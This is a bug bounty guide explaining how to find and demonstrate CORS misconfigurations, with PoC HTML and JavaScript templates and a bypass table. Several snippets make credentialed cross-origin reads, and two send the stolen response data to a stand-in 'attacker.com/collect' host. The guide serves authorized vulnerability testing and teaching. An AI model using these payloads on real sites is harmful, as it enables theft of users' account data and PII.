

> Source: https://bugbounty.info/Attack-Surface/Web/Client-Side/CORS

# CORS Misconfigurations

CORS bugs are everywhere and consistently underreported because hunters see the misconfiguration and immediately report it without demonstrating actual impact. That's why programs mark them informational. The misconfiguration only matters if it lets an attacker read sensitive data cross-origin. My standing rule: find the API endpoint that returns auth tokens, PII, or account data  -  then show CORS lets you read it.

## The Core Issue

Browsers enforce same-origin policy  -  scripts on `evil.com` can't read responses from `target.com`. CORS is the exception mechanism. A misconfigured CORS policy hands that exception to the wrong origins.



## Origin Reflection

The most common pattern. The server takes whatever `Origin` header you send and echoes it back:

```http
GET /api/user HTTP/1.1
Origin: https://attacker.com
Cookie: session=abc123
 
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
{"email":"victim@example.com","balance":4200}
```

Test it in Burp  -  send any arbitrary origin, see if it gets reflected back with `Allow-Credentials: true`. That combination is the vulnerable case. `Allow-Origin: *` without credentials doesn't matter for auth'd data because browsers won't send cookies with wildcard origins.

## Null Origin via Sandboxed iframe

The `null` origin is sent by sandboxed iframes, `data:` URIs, and file:// requests. Some whitelists include `null` explicitly because devs tested locally.

```html
<iframe sandbox="allow-scripts allow-forms" srcdoc="
<script>
  fetch('https://api.target.com/user', {credentials:'include'})
    .then(r => r.json())
    .then(d => {
      // post data back to parent
      parent.postMessage(JSON.stringify(d), '*');
    });
</script>
"></iframe>
```

Test by sending `Origin: null` in Burp. If you get `Access-Control-Allow-Origin: null` back, you can exploit via sandboxed iframe.

## Subdomain Trust

Apps often whitelist `*.target.com` or validate that origin ends with `.target.com`. Any XSS or subdomain takeover on any subdomain lets you make credentialed requests:

```javascript
// From a compromised subdomain or XSS on sub.target.com
fetch('https://api.target.com/admin/users', {credentials: 'include'})
  .then(r => r.json())
  .then(d => {
    // exfil to your server
    fetch('https://attacker.com/collect?d=' + btoa(JSON.stringify(d)));
  });
```

The chain: [Subdomain Takeover](../../../Attack-Surface/Web/Client-Side/Subdomain-Takeover) + CORS subdomain trust = account takeover without touching the main app.

## Bypass Patterns for Origin Validation

Apps that check `origin.endsWith('target.com')` or use regex:

| Intended whitelist | Bypass |
| --- | --- |
| `*.target.com` | Get XSS or takeover on any subdomain |
| `origin.endsWith('.target.com')` | `evil.target.com` (still needs to be a real subdomain you control) |
| `origin.includes('target.com')` | `attacker-target.com` |
| `/^https?:\/\/target\.com/` | `https://target.com.evil.com` (regex not anchored at end) |

## PoC Template

```html
<!DOCTYPE html>
<html>
<body>
<h2>CORS PoC</h2>
<pre id="output">Sending request...</pre>
<script>
  fetch('https://api.target.com/user/profile', {
    credentials: 'include'
  })
  .then(r => {
    if (!r.ok) throw new Error('HTTP ' + r.status);
    return r.json();
  })
  .then(data => {
    document.getElementById('output').textContent = JSON.stringify(data, null, 2);
    // In a real attack, exfil to your server:
    // fetch('https://attacker.com/collect', {method:'POST',body:JSON.stringify(data)});
  })
  .catch(e => {
    document.getElementById('output').textContent = 'Error: ' + e.message;
  });
</script>
</body>
</html>
```

For the null origin variant:

```html
<iframe sandbox="allow-scripts" srcdoc="
<script>
fetch('https://api.target.com/user',{credentials:'include'})
  .then(r=>r.text()).then(d=>parent.postMessage(d,'*'));
</script>"></iframe>
<script>
window.addEventListener('message',e=>document.write(e.data));
</script>
```

## When CORS Is Reportable vs. When It Needs a Chain

**Standalone reportable:** CORS reflects origin + Allow-Credentials on an authenticated endpoint that returns sensitive data (tokens, PII, private content). Show the actual data leak in your PoC  -  don't just show the headers.

**Needs a chain:** CORS on public/unauthenticated endpoints. CORS without Allow-Credentials on endpoints requiring auth. CORS + wildcard (browsers block credentialed requests to wildcard anyway).

**Not reportable alone:** Misconfigured headers on static assets. CORS on endpoints that return nothing sensitive. Don't burn report credibility on headers-only findings.

## Checklist

- Send arbitrary `Origin: https://attacker.com` to every API endpoint  -  does it reflect?
- Check if reflection comes with `Access-Control-Allow-Credentials: true`
- Try `Origin: null` for null origin whitelist
- Map the subdomain trust logic  -  what patterns does the whitelist match?
- Find what the sensitive API endpoints return before writing the report
- Build a working PoC that actually reads and displays response data

## Public Reports

- CORS origin reflection with Allow-Credentials on authenticated API leaks session tokens - [HackerOne #426165](https://hackerone.com/reports/426165)
- Null origin whitelisted on API allowing cross-site reads via sandboxed iframe - [HackerOne #470245](https://hackerone.com/reports/470245)
- CORS regex bypass via `target.com.attacker.com` origin on Shopify - [HackerOne #854689](https://hackerone.com/reports/854689)
- Subdomain takeover combined with CORS subdomain trust achieves account takeover - [HackerOne #1379054](https://hackerone.com/reports/1379054)
- CORS misconfiguration on internal API exposes PII to any origin - [HackerOne #235200](https://hackerone.com/reports/235200)

## See Also

- [CSRF](../../../Attack-Surface/Web/Client-Side/CSRF)
- [Subdomain Takeover](../../../Attack-Surface/Web/Client-Side/Subdomain-Takeover)
- [postMessage Vulnerabilities](../../../Attack-Surface/Web/Client-Side/postMessage-Vulnerabilities)
- [JavaScript Analysis](../../../Recon/JavaScript-Analysis)
